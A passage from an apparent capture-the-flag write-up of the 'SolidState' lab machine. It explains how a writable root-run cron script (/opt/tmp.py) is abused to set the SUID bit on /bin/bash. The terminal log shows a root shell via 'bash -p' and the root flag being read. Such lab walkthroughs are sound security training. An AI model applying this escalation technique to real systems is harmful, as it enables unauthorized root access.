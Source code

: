 Based on the output above, we can see that root (UID=0) is running the script every 3 minutes. Since we have write access to the script, we can modify it to escalate to root.​ ​ ​

## Privilege Escalation

​ ​ ​ ​ ​ ​

Let's modify the /opt/tmp.py script by adding the following line, which will add the SUID bit to the /bin/bash binary. Once that is done, all we need to do is run /bin/bash to get root and grab the root flag.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ /bin/bash -p
bash-4.4# id
uid=1001(mindy) gid=1001(mindy) euid=0(root) groups=1001(mindy)
bash-4.4# cat /root/root.txt
4f4afb55463c3bc79ab1e906b074953d
bash-4.4# 

```



## Resources

{% embed url="https://www.jscape.com/blog/smtp-vs-imap-vs-pop3-difference" %}

​[https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)



